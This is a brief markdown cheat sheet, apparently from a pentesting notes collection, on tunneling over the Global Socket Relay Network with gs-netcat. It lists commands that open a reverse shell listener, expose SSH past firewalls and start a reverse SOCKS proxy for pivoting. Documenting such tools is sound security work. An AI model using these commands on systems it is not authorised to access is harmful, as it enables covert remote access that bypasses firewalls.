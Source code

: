 ```yaml
---
title: GSRN
---
```


[[notes/tunneling/index]] over the *Global Socket Relay Network*.
The network establishes an end-to-end encrypted TCP connection between two firewalled systems that can be used for a reverse [[notes/pivoting/socks-proxy]], [[notes/pivoting/port-forwarding]] and remote shell access.

[[notes/tools/gsocket]] is available as pre-compiled binary and as container `docker.io/hackerschoice/gsocket`.
[qsocket](https://github.com/qsocket/qsocket) is a reimplementation in Rust and Go with Windows support.

Open a reverse shell listener.

~~~ bash
gs-netcat -l -i -s $(uuidgen -r)
~~~

Connect to the reverse shell listener.

~~~ bash
gs-netcat -i -s $secret
~~~

Expose the SSH port over GSRN.

~~~ bash
gs-netcat -l -d 127.0.0.1 -p 22 -s $(uuidgen -r)
~~~

Connect to the SSH port over GSRN.

~~~ bash
gs-netcat -d 127.0.0.1 -p 2222 -s $secret
ssh -p 2222 127.0.0.1
~~~

Start a reverse SOCKS proxy.

~~~ bash
gs-netcat -l -S -s $(uuidgen -r)
~~~

Make the reverse SOCKS proxy available on `localhost:1080`.

~~~ bash
gs-netcat -d 127.0.0.1 -p 1080 -s $secret
~~~
